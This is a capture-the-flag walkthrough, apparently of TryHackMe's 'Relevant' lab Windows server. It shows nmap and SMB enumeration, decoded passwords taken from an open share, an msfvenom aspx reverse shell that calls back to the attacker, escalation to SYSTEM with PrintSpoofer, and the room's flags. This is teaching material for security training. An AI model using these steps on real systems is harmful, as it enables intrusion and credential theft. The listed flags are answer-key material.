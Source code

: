 > Relevant | Black Box Pen Testing

**export IP=10.10.205.188**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack ttl 127 Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
49663/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

# SMB

smbclient -L $IP

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
```

smbclient \\\\$IP\\nt4wrksv

```
passwords.txt
```

## passwords.txt

```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw== => Bob - !P@$$W0rD!123
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk => Bill - Juw4nnaM4n420696969!$$$
```

# Gobuster - 49663

sudo gobuster -u http://$IP:49663 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -x php,txt,bak,sql -t 20 -o gobuster/initial

```
nt4wrksv
```

Looks like this and SMB share is linked . IIS server requires .aspx file. So let's try to upload a reverse shell here!

msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=53 -f aspx > shell.aspx

In Smb , we use put shell.aspx. Typing curl http://$IP:49663/nt4wrksv/shell.aspx we have a shell!!

# Privilege Checking

whoami /priv

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We have `SeImpersonatePrivilege`. But Potato attack won't work since DCOM is disabled.There is another exploit called `PrinterSpoofer` where service accounts are required to run with elevated privileges utilizing the SeImpersonate privilege.

whoami

```
iis apppool\defaultapppool => we are in as a service account
```

Let's upload PrintSpoofer.exe to the SMB share and access it in C:\inetpub\wwwroot\nt4wrksv.

And executing it

PrintSpoofer.exe -i -c cmd => we are in as `nt authority\system`

# user.txt => C:\Users\Bob\Desktop

```
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

# root.txt => C:\Users\Administrator\Desktop

```
THM{1fk5kf469devly1gl320zafgl345pv}
```